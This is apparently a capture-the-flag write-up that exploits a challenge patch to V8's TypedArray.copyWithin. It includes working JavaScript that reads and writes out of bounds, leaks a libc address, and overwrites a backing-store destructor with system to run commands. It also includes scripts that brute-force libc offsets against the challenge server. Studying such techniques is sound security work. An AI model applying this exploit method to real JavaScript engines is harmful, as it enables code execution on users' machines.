



VVVV8
The vulnerability
VVVV8 is a patch to V8 that adds a fourth parameter to
TypedArray.copyWithin.
diff --git a/src/builtins/builtins-typed-array.cc b/src/builtins/builtins-typed-array.cc
index fdadc7a554..81b6290f6e 100644
--- a/src/builtins/builtins-typed-array.cc
+++ b/src/builtins/builtins-typed-array.cc
@@ -56,6 +56,8 @@ BUILTIN(TypedArrayPrototypeCopyWithin) {
int64_t from = 0;
int64_t final = len;
+ size_t element_size = array->element_size();
+
if (V8_LIKELY(args.length() > 1)) {
Handle<Object> num;
ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
@@ -67,11 +69,17 @@ BUILTIN(TypedArrayPrototypeCopyWithin) {
isolate, num, Object::ToInteger(isolate, args.at<Object>(2)));
from = CapRelativeIndex(num, 0, len);
- Handle<Object> end = args.atOrUndefined(isolate, 3);
- if (!end->IsUndefined(isolate)) {
- ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, num,
- Object::ToInteger(isolate, end));
+ if (args.length() > 3) {
+ ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+ isolate, num, Object::ToInteger(isolate, args.at<Object>(3)));
final = CapRelativeIndex(num, 0, len);
+
+ Handle<Object> type_len = args.atOrUndefined(isolate, 4);
+ if (!type_len->IsUndefined(isolate)) {
+ ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, num,
+ Object::ToUint32(isolate, type_len));
+ element_size = CapRelativeIndex(num, 0, 8);
+ }
}
}
}
@@ -92,8 +100,13 @@ BUILTIN(TypedArrayPrototypeCopyWithin) {
DCHECK_GE(to, 0);
DCHECK_LT(to, len);
DCHECK_GE(len - count, 0);
+ DCHECK_LE(element_size, 8);
+ DCHECK_GT(element_size, 0);
+
+ if (element_size != 1 && element_size % 2 == 1) {
+ element_size = array->element_size();
+ }
- size_t element_size = array->element_size();
to = to * element_size;
from = from * element_size;
count = count * element_size;
TypedArray is an interface used by objects such as Uint8Array These objects can be used to wrap ArrayBuffers, providing access to the buffer.
TypedArray.copyWithin is a method used for copying data around inside the
buffer, before any data is copied, the runtime first makes sure that data is
within the bounds of the backing buffer to prevent any Out-Of-Bounds read or
writes occuring. After those checks have passed, V8 simply performs a memmove
on the backing buffer:
uint8_t* data = static_cast<uint8_t*>(array->DataPtr());
std::memmove(data + to, data + from, count);
TypedArray.copyWithin can be used by arrays with many differrent element size,
for example: Uint8Array and BigUint64Array. Because copyWithin is given
indexes into the array it needs to know the width of the elements of the array
as well as the total size of the array, the indexes passed to copyWithin are
multiplied by the element size to determine the byte indexes to pass to memmove:
size_t element_size = array->element_size();
to = to * element_size;
from = from * element_size;
count = count * element_size;
The patch adds a fourth parameter to this function, which allows for overriding
the element_size value, because the byte offset is index * element_size, if
the actual element size is less than the provided element size, it becomes
possible to read and write out of bounds of the backing array.
Looking for things to leverage
After running the following snippet we can use %DebugPrint to find the address
of the backing store and inspect the memory around the buffer of buf.
var buffers = [];
for (var i = 0; i < 49; i++) {
var b = new ArrayBuffer(24);
var u = new Uint8Array(b);
u.fill(i);
buffers.push(b);
}
var buf = new ArrayBuffer(64);
for (var i = 51; i < 90; i++) {
var b = new ArrayBuffer(24);
var u = new Uint8Array(b);
u.fill(i)
buffers.push(b);
}
The output of %DebugPrint shows that the buffer is located at 0x555556ad2380
d8> %DebugPrint(buf)
DebugPrint: 0x349b0808654d: [JSArrayBuffer]
- map: 0x349b08243185 <Map(HOLEY_ELEMENTS)> [FastProperties]
- prototype: 0x349b08208ba1 <Object map = 0x349b082431ad>
- elements: 0x349b080426e5 <FixedArray[0]> [HOLEY_ELEMENTS]
- embedder fields: 2
- backing_store: 0x555556ad2380
- byte_length: 64
- detachable
- properties: 0x349b080426e5 <FixedArray[0]> {}
- embedder fields = {
0, aligned pointer: (nil)
0, aligned pointer: (nil)
}
This writeup documents
the heap layout of BackingStores and points out that they have a pointer
field,
which when a flag is set will be
called
upon the backing store being garbage collected, if we overwrite this and set the
flag we can call any function (such as system) with the first parameter being
the contents of the buffer!.
From looking at the memory dump, we can see that the destructor for one of the
buffers is located at offset 104 from the start of buf's backing store,
there is also a pointer at offset 192 that happens to point into libc, this is
very useful as it can be used to defeat ASLR.
gdb-peda$ tele 0x555556ad2380 20
0088| 0x555556ad23d8 --> 0x40 ('@')
0096| 0x555556ad23e0 --> 0x40 ('@')
0104| 0x555556ad23e8 --> 0x7fffffffe1a8 --> 0x555556a0f8e8 --> 0x555555cedd40 (<_ZN2v812_GLOBAL__N_124ArrayBufferAllocatorBaseD2Ev>: )
0112| 0x555556ad23f0 --> 0x31180a03e5115d01
0120| 0x555556ad23f8 --> 0x105d80240c1c0208
0128| 0x555556ad2400 --> 0x0
0136| 0x555556ad2408 --> 0x31 ('1')
0144| 0x555556ad2410 --> 0x555556a0fe38 --> 0x555555cdb130 (<__jit_debug_register_code>: push rbp)
0152| 0x555556ad2418 --> 0x0
0160| 0x555556ad2420 --> 0x0
0168| 0x555556ad2428 --> 0x555556ad23d0 --> 0x555556ad2380 --> 0x0
0176| 0x555556ad2430 --> 0x0
0184| 0x555556ad2438 --> 0x31 ('1')
0192| 0x555556ad2440 --> 0x7ffff7dc0000 --> 0x25fff4d430
0200| 0x555556ad2448 --> 0x555556ad23d0 --> 0x555556ad2380 --> 0x0
I wrote the following code to extract the pointer to libc by reading out of
bounds from buf's buffer:
var view = new Uint8Array(buf);
var close_to_libc_offset = 192 / 8;
var destrutor_offset = 104 / 8;
var u64view = new BigUint64Array(buf);
view.copyWithin(0, close_to_libc_offset, close_to_libc_offset + 8, 8);
var libcptr = u64view[0];
console.log(`libcptr: ${libcptr}`)
GDB can then be used to get the address of system and calculate it's offset
from this pointer into libc, after running this a few times with ASLR on, I
found that the pointer into libc isn't always at the same offset from libc, but
a few of the least significant bits vary, this isn't a problem since we can
still guess those bits.
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7c56830 <system>
gdb-peda$ p 0x7ffff7dc0000 - 0x7ffff7c56830
$2 = 0x1697d0
Exploitation
The following code calculates the address of system and writes it into the
correct offset, as well as setting the correct flags so that the custom
destructor is called when the buffer is GCd:
var destrutor_offset = 104 / 8;
var system_offset_from_libc = -0x1697d0n;
// one out of ten times this is correct
var random_offset = 0xa000n;
var system_addr = libcptr + system_offset_from_libc - random_offset;
console.log(`system_addr: ${system_addr}`)
// write the address of system to the destructor of the
// buffer and set it's custom destructor flag
view.copyWithin(0, destrutor_offset, destrutor_offset + 8, 8);
u64view[0] = system_addr;
u64view[2] = 0x40n | u64view[2];
view.copyWithin(destrutor_offset, 0, 8, 8);
Now we just need to copy our payload into the buffer:
var cmd = Uint8Array.from("/bin/ls\x00\x00".split('').map(c => c.charCodeAt(0)));
view.set(cmd, 0);
To make sure our buffer isn't referenced all the exploitation code is put in a
function (that I named exploit), then all that's needed is to force a garbage
collect by allocating some large buffers:
function gc() {
for (let i = 0; i < 20; i++)
new ArrayBuffer(0x1000000);
}
Now we just need to run:
exploit();
gc();
And after 6 or so attempts, it works!

So we have the exploit working on our local system, where we know what version
of libc we're using and can read the offset of system, but for the challenge
we don't know which libc version is being used, I started by trying with the
offsets of system in some common docker images such as ubuntu:20.10,
ubuntu:20.04, but none of these worked. So I used
https://github.com/niklasb/libc-database to download 392 versions of libc, and
used the following fish script to extract the offsets of system from all of them:
for f in db/*.so
objdump $f -T | grep "\bsystem\b" | awk '{print $1}' | sed 's/^0*//' >> offsets_to_try
end
I then modified the pwn script to correct for a given system offset:
var system_offset_me = 0x4a830n;
var system_offset_them = THEOFFSET;
var offset_from_my_system = system_offset_them - system_offset_me;
var system_addr = libcptr + system_offset_from_libc + offset_from_my_system - random_offset;
Then I minified my script and wrote a fish script to attempt each of these offsets:
while read -la offset
cat pwn.js | sed (printf "s/THEOFFSET/0x%sn/" $offset) > pwn_.js
echo "offset: " $offset
for i in (seq 20)
cat pwn_.js | nc docker.hackthebox.eu 32429
end
end < offsets_to_try

After some attempts I found that offset 0x35fd0 worked, and I modified my
script to execute /bin/cat flag instead, though for some reason 'flag' was an
executable file (maybe I was meant to solve this another way), so I again
modified the exploit to run ./flag and ran it, now we have our flag:
